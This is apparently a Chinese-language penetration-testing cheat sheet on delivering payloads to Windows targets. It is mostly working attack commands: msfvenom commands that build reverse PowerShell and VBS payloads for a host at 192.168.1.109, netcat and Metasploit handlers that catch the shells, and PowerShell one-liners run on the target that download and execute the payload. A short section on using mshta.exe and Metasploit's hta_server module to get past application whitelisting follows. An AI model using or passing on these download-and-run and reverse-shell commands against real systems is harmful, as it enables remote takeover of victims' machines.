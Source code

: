 **Batch File**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat

python -m SimpleHTTPServer 80

nc -lvp 4444
```

目标端
```bash
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

**Cscript**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

---

## 白名单

**MSBuild**
- [Use MSBuild To Do More](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

**Mshta.exe**

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

Metasploit 包含“ HTA Web服务器”模块，该模块会生成恶意的 hta 文件。该模块托管一个 HTML 应用程序（HTA），该应用程序在打开时将通过 Powershell 运行有效负载。当用户导航到 HTA 文件时，在 Payload 执行之前 IE 会提示两次。

攻击端
```bash
use exploit/windows/misc/hta_server
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```
